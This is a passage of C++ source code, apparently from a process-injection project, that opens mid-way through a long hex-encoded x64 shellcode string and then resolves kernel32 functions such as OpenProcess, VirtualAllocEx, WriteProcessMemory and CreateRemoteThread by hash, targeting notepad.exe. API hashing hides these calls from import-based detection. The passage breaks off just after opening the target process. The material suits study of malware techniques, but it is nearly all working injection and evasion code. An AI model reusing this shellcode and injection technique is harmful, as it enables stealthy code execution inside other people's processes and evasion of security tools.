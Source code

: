 ```c++
C8\x48\x8B\xC1\x0F\xBE\x00\x85\xC0\x75\x17\x48\x8B\x44\x24\x60\x8B\x00\x48\x8B\x8C\x24\x80\x00\x00\x00\x48\x03\xC8\x48\x8B\xC1\xEB\x07\xE9\xA0\xFE\xFF\xFF\x33\xC0\x48\x83\xC4\x78\xC3\x48\x89\x4C\x24\x08\x56\x57\x48\x83\xEC\x68\x48\xC7\x44\x24\x30\x00\x00\x00\x00\x65\x48\x8B\x04\x25\x60\x00\x00\x00\x48\x89\x44\x24\x30\x48\x8B\x44\x24\x30\x48\x8B\x40\x18\x48\x89\x44\x24\x38\x48\x8D\x44\x24\x48\x48\x8B\x4C\x24\x38\x48\x8B\xF8\x48\x8D\x71\x10\xB9\x10\x00\x00\x00\xF3\xA4\x48\x8B\x44\x24\x48\x48\x89\x44\x24\x40\x48\x8B\x44\x24\x40\x48\x89\x44\x24\x20\x48\x83\x7C\x24\x20\x00\x0F\x84\xC6\x01\x00\x00\x48\x8B\x44\x24\x20\x48\x83\x78\x30\x00\x0F\x84\xB6\x01\x00\x00\x48\x8B\x44\x24\x20\x48\x83\x78\x60\x00\x75\x02\xEB\xD6\x48\x8B\x44\x24\x20\x48\x8B\x40\x60\x48\x89\x44\x24\x18\x48\xC7\x04\x24\x00\x00\x00\x00\x48\xC7\x04\x24\x00\x00\x00\x00\xEB\x0B\x48\x8B\x04\x24\x48\xFF\xC0\x48\x89\x04\x24\x48\x8B\x84\x24\x80\x00\x00\x00\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x85\xC0\x0F\x84\x23\x01\x00\x00\x48\x8B\x44\x24\x18\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x85\xC0\x0F\x84\x0E\x01\x00\x00\x48\x8B\x84\x24\x80\x00\x00\x00\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x83\xF8\x5A\x7F\x50\x48\x8B\x84\x24\x80\x00\x00\x00\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x83\xF8\x41\x7C\x3B\x48\x8B\x84\x24\x80\x00\x00\x00\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x83\xE8\x41\x83\xC0\x61\x89\x44\x24\x28\x48\x8B\x84\x24\x80\x00\x00\x00\x48\x8B\x0C\x24\x0F\xB7\x54\x24\x28\x66\x89\x14\x48\x0F\xB7\x44\x24\x28\x66\x89\x44\x24\x08\xEB\x15\x48\x8B\x84\x24\x80\x00\x00\x00\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x66\x89\x44\x24\x08\x0F\xB7\x44\x24\x08\x66\x89\x44\x24\x0C\x48\x8B\x44\x24\x18\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x83\xF8\x5A\x7F\x47\x48\x8B\x44\x24\x18\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x83\xF8\x41\x7C\x35\x48\x8B\x44\x24\x18\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x83\xE8\x41\x83\xC0\x61\x89\x44\x24\x2C\x48\x8B\x44\x24\x18\x48\x8B\x0C\x24\x0F\xB7\x54\x24\x2C\x66\x89\x14\x48\x0F\xB7\x44\x24\x2C\x66\x89\x44\x24\x0A\xEB\x12\x48\x8B\x44\x24\x18\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x66\x89\x44\x24\x0A\x0F\xB7\x44\x24\x0A\x66\x89\x44\x24\x10\x0F\xB7\x44\x24\x0C\x0F\xB7\x4C\x24\x10\x3B\xC1\x74\x02\xEB\x05\xE9\xBA\xFE\xFF\xFF\x48\x8B\x84\x24\x80\x00\x00\x00\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x85\xC0\x75\x1C\x48\x8B\x44\x24\x18\x48\x8B\x0C\x24\x0F\xB7\x04\x48\x85\xC0\x75\x0B\x48\x8B\x44\x24\x20\x48\x8B\x40\x30\xEB\x14\x48\x8B\x44\x24\x20\x48\x8B\x00\x48\x89\x44\x24\x20\xE9\x2E\xFE\xFF\xFF\x33\xC0\x48\x83\xC4\x68\x5F\x5E\xC3";

	std::cout << "[+] Starting ..." << std::endl;
	const TCHAR* processName = TEXT("notepad.exe");
	DWORD pid = getPID(processName);
	std::cout << "PID of " << &processName << " is : " << pid << std::endl;
	
	PDWORD convertOpenProcess = getFunctionAddressByHash((char*)"kernel32", 0x4105fc56);
	customOpenProcess openProcess = (customOpenProcess)convertOpenProcess;

	PDWORD virtualAllocExFunction = getFunctionAddressByHash((char*)"kernel32", 0xaeb6049c);
	customVirtualAllocEx virtualAllocEx = (customVirtualAllocEx)virtualAllocExFunction;

	PDWORD virtualProtectFunction = getFunctionAddressByHash((char*)"kernel32", 0x820621f3);
	customVirtualProtect virtualProtect = (customVirtualProtect)virtualProtectFunction;

	PDWORD writeProcessMemoryFunction = getFunctionAddressByHash((char*)"kernel32", 0xc0088eea);
	customWriteProcessMemory writeProcessMemory = (customWriteProcessMemory)writeProcessMemoryFunction;

	PDWORD createRemoteThreadFunction = getFunctionAddressByHash((char*)"kernel32", 0xc398c463);
	customCreateRemoteThread createRemoteThread = (customCreateRemoteThread)createRemoteThreadFunction;

	PDWORD createVirtualProtectExFunction = getFunctionAddressByHash((char*)"kernel32", 0x14c8e);
	customVirtualAllocEx virtualProtectEx = (customVirtualAllocEx)createVirtualProtectExFunction;

	PDWORD convertCloseHandle = getFunctionAddressByHash((char*)"kernel32", 0xfaba0065);
	customCloseHandle closeHandle = (customCloseHandle)convertCloseHandle;

	PDWORD convertWaitForSingleObjectEx = getFunctionAddressByHash((char*)"kernel32", 0xf8d32811);
	customWaitForSingleObjectEx waitForSingleObjectEx = (customWaitForSingleObjectEx)convertWaitForSingleObjectEx;

	// std::cout << "[+] Executing OpenProcess ..." << std::endl;
	HANDLE hProcess = openProcess(PROCESS_ALL_ACCESS, FALSE, pid);
	if (hProcess == NULL) {
		// std::cout << "[!] OpenProcess Failed : " << GetLastError() << std::endl;
		return -1;
```